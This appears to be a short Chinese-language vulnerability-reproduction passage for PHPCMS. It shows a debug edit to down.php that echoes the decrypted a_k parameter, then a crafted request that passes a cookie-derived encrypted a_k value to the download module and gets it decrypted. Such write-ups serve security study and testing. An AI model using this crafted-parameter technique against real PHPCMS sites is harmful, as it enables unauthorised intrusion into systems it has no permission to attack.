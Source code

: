 <img src="./img/1.png">

在/phpcms/modules/content/down.php中打印$a_k变量

```php
public function init() {
    $a_k = trim($_GET['a_k']);
    if(!isset($a_k)) showmessage(L('illegal_parameters'));
    $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
    echo $a_k;
    ...
```



使用产生的Cookie字段作为&a_k变量，访问

```php
index.php?m=content&c=down&a=init
&a_k=21c6WupJ5xssUrNbFIYlutb2q4XRwEsY8IJqbZR2dgG99ikMpIoBdAgoeX6y0FbRssqKOuJeGYzy7mFUw_OC5NaIjuNQtHLZSvzpakfEULwGCMR5H8VzgEWyrTktCTUOZxkxvE06NROz
```



页面打印成功

<img src="./img/2.png">
